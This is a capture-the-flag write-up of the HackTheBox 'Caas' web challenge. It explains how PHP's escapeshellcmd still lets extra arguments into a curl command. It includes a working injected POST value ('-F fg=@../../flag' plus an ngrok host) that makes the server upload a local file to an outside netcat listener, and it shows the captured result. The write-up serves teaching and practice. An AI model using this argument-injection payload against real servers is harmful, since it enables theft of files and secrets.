

# Info

| #     |   |
|:--    |:--|
Type    |CTF / Web
Name    | **Cyber Apocalypse 2021 / Caas**
Started | 2021/04/23 07:30 AM
URLs    | https://ctf.hackthebox.eu/ctf/82
|       | https://ctftime.org/event/1304
Author  | **Asentinn** / OkabeRintaro
|       | [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

# ToE

We are given the IP and a port as a target of evaluation:

* `138.68.178.56:32236`

And web application source code dump.

# Recon

Initial scan with `nmap`:

```
$ sudo nmap -A -p 32236 138.68.178.56 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 07:40 CEST
Nmap scan report for 138.68.178.56
Host is up (0.0050s latency).

PORT      STATE SERVICE VERSION
32236/tcp open  http    nginx
|_http-title: Web Threat Blocked
|_http-trane-info: Problem with XML parsing of /evox/about
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge
Running: Oracle Virtualbox
OS CPE: cpe:/o:oracle:virtualbox
OS details: Oracle Virtualbox
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.22 ms XXX.XXX.XXX.XXX
2   0.28 ms 138.68.178.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.10 seconds
```

Port 32236 is an TCP open port serving a nginx web applications. So lets look it up.

## Website

Site presents itself as some service using presumably `curl` to query IP addresses. But providing it an IP address ends with the error message.



Let's look at the source code.

### /Router.php
```php
<?php
class Router 
{
    public $routes = [];

    public function new($method, $route, $controller)
    {
        $r = [
            'method' => $method,
            'route'  => $route,
        ];

        if (is_callable($controller))
        {
            $r['controller']    = $controller;
            $this->routes[]     = $r;
        }
        else if (strpos($controller, '@'))
        {
            $split      = explode('@', $controller);
            $class      = $split[0];
            $function   = $split[1];
            
            $r['controller'] = [
                'class'     => $class,
                'function'  => $function
            ];
            
            $this->routes[] = $r;
        }
        else
        {
            throw new Exception('Invalid controller');
        }
    }

    public function match()
    {
        foreach($this->routes as $route)
        {
            if ($this->_match_route($route['route']))
            {
                if ($route['method'] != $_SERVER['REQUEST_METHOD'])
                {
                    $this->abort(405);
                }
                $params = $this->getRouteParameters($route['route']);

                if (is_array($route['controller']))
                {
                    $controller = $route['controller'];
                    $class      = $controller['class'];
                    $function   = $controller['function'];

                    return (new $class)->$function($this,$params);
                }
                return $route['controller']($this,$params);
            }
        }

        $this->abort(404);
    }

    public function _match_route($route)
    {
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        if (count($uri) != count($route)) return false;

        foreach ($route as $key => $value)
        {
            if ($uri[$key] != $value && $value != '{param}') return false;
        }

        return true;
    }

    public function getRouteParameters($route)
    {
        $params = [];
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        foreach ($route as $key => $value)
        {
            if ($uri[$key] == $value) continue;
            if ($value == '{param}')
            {
                if ($uri[$key] == '')
                {
                    $this->abort(404);
                }
                $params[] = $uri[$key];
            }
        }

        return $params;
    }

    public function abort($code)
    {
        http_response_code($code);
        exit;
    }

    public function view($view, $data = [])
    {
        extract($data);
        include __DIR__."/views/${view}.php";
        exit;
    }
}
```

This looks like a regular PHP routing boilerplate code. The only interesting thing here is that it reveals `/views/` folder.

### /controllers/CurlController.php
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}   
```

This one is utmost interesting as it show how the request parameter is parsed and used. Controller takes the `ip` POST data value, creates `CommandModel` from it (I'll look at this class later) and executes the _command_. The result is returned from the controller as a JSON.

### /models/CommandModel.php 
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Ok, we have a main point of interest. We can see that constructor builds the `curl` command from the input parameter (remember, that this is the value that is being passed in the POST). From the `man curl`:

`-s, silent  or  quiet  mode.  Don't show progress meter or error messages.`

```
-L, (HTTP) If the server reports that the requested page has moved to a different location (indicated with
              a  Location:  header  and a 3XX response code), this option will make curl redo the request on the new
              place.
```

Ok so we a have a red flag here - **the value that is being passed in the request is used to build a shell command that is executed**. Ok, but what about `escapeshellcmd`?

#### escapeshellcmd ( string $command ) : string

Let's start from the official PHP Manual [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) page.

> Escapes any characters in a string that might be used to trick a shell command into executing arbitrary commands. This function should be 
> used to make sure that any data coming from user input is escaped before this data is passed to the exec() or system() functions, or to the backtick operator.
> 
> Following characters are preceded by a backslash: &#;`|*?~<>^()[]{}$\, \x0A and \xFF. ' and " are escaped only if they are not paired.

Ok, so this function prevents from executing multiple commands by escaping ex. pipe and semicolon characters (commands like `ls; rm -rf;` won't work).

But what it doesn't do and what can be exploited (and will be in this box) is passing _an arbitrary number of arguments_. We can read about further down.

> **Warning:** escapeshellcmd() should be used on the whole command string, and it still allows the attacker to pass arbitrary number of arguments. 
> For escaping a single argument escapeshellarg() should be used instead. 

Ok, so we have a vulnerability we're going to exploit.

# Exploit

Now, `curl` have one parameter, that existence is not that obvious for a command that almost always is used to make a request under given address.

```
$ man curl 

-F, --form <name=content>
              (HTTP SMTP IMAP) For HTTP protocol family, this lets curl emulate a filled-in form in which a user has
              pressed the submit button. This causes curl to POST data using  the  Content-Type  multipart/form-data
              according to RFC 2388.

              For SMTP and IMAP protocols, this is the mean to compose a multipart mail message to transmit.

              This  enables uploading of binary files etc. To force the 'content' part to be a file, prefix the file
              name with an @ sign. To just get the content part from a file, prefix the file name with the symbol <.
              The  difference between @ and < is then that @ makes a file get attached in the post as a file upload,
              while the < makes a text field and just get the contents for that text field from a file.

```

Yeah. We can force the application to send any file it has access to, via the response. Let's try it.

## Setup listener

In this challenge we are not given the VPN, all boxes are exposed to the global network. So we have to make a tunnel to our localhost.

I'm using `ngrok` in one terminal:

```
$ /opt/ngrok http 4444

ngrok by @inconshreveable                                                                              (Ctrl+C to quit)
                                                                                                                       
Session Status                online                                                                                   
Account                       XXXXX (Plan: Free)                                                                    
Version                       2.3.39                                                                                   
Region                        United States (us)                                                                       
Web Interface                 http://127.0.0.1:4040                                                                    
Forwarding                    http://1f106a9e85a2.ngrok.io -> http://localhost:4444                                    
Forwarding                    https://1f106a9e85a2.ngrok.io -> http://localhost:4444                                   
                                                                                                                       
Connections                   ttl     opn     rt1     rt5     p50     p90                                              
                              0       0       0.00    0.00    0.00    0.00             
```

In the second I'm using `netcat`:

```
$ nc -lvnp 4444

listening on [any] 4444 ...

```

`-l` for listen, `-v` for verbose, `-n` for numeric IPs, and `-p` to specify port.

And to retrieve the flag (from downloadable we know that flag is located 2 levels above the working directory of the script):

```
url -H "application/x-www-form-urlencoded" -d 'ip=-F fg=@../../flag 1f106a9e85a2.ngrok.io' -v 138.68.178.56:32236/api/curl
```

**Bingo**.

Output from the `netcat`:

```
listening on [any] 4444 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58946
POST / HTTP/1.1
Host: 1f106a9e85a2.ngrok.io
User-Agent: curl/7.64.0
Content-Length: 227
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------a588a0571ed8077f
X-Forwarded-For: 138.68.178.56
X-Forwarded-Proto: http
Accept-Encoding: gzip

--------------------------a588a0571ed8077f
Content-Disposition: form-data; name="fg"; filename="flag"
Content-Type: application/octet-stream

CHTB{f1le_r3trieval_4s_a_s3rv1ce}
--------------------------a588a0571ed8077f--
```

# Flag

> **CHTB{f1le_r3trieval_4s_a_s3rv1ce}**

# Additional readings

* [Differences between escapeshellarg and escapeshellcmd](https://stackoverflow.com/a/22739494)
* [How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
* [man curl](https://linux.die.net/man/1/curl)